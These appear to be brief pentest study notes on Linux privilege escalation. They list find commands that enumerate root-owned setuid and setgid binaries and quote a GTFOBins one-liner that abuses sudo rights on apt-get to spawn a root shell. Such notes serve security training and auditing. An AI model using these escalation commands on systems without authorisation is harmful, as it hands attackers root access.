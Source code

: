 setuid permission can allow a user to execute a program or script with the permission of another user, typically with elevated privileges (appears as an s)

**setuid files
```shell-session
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
- Reverse engineer the program with the SETUID bit set, identify a vulnerability, and exploit this to escalate our privileges

**Enumerate setgid files
```shell-session
find / -uid 0 -perm -6000 -type f 2>/dev/null
```

**setgid files
```shell-session
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
- Allows us to run binaries as if we were part of the group that created them

**GTFOBins
```shell-session
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```
